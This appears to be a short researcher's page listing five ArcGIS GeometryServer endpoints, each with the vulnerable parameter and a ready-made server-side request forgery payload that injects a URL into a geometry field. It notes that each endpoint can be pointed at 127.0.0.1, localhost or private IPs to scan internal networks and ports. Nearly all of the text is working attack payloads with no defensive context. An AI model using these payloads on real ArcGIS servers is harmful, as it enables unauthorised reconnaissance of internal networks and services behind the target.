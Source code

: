 Note: The paths may slightl vary from target to target so adjust them as needed. Each endpoint can be leveraged for internal network scan/internal port scan by using `http://127.0.0.1:25` or `http://localhost:25` or `http://<private_ip>`.

## 1.
Endpoint: `/Utilities/Geometry/GeometryServer/areasAndLengths`

Parameter: `polygons`

Sample payload: `sr=102009&polygons={"url":"http://example.com"}&lengthUnit=9035&areaUnit=%7B%22areaUnit%22:%22esriAcres%22%7D&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/areas-and-lengths/

## 2. 
Endpoint: `/Utilities/Geometry/GeometryServer/buffer`

Parameter: `geometries`

Sample payload: `?geometries={"url":"http://example.com"}&inSR=4326&outSR=4326&bufferSR=3857&distances=1000&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/buffer/

## 3. 
Endpoint: `/Utilities/Geometry/GeometryServer/lengths`

Parameter: `polylines`

Sample payload: `sr=4269&polylines={"url":"http://example.com"}&lengthUnit=9036&calculationType=preserveShape&f=json`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/lengths/

## 4.

Endpoint: `Utilities/Geometry/GeometryServer/simplify`

Parameter: `geometries`

Sample payload: `sr=4326&geometries={"url":"http://example.com"}`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/simplify/

## 5. 

Endpoint: `Utilities/Geometry/GeometryServer/relation`

Parameter: `geometries1` and `geometries2`

Sample Payload: `sr=4326&geometries1={"url":"http://example.com"}&geometries2={"url":"http://example.com"}&relation=esriGeometryRelationWithin`

Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/relation/
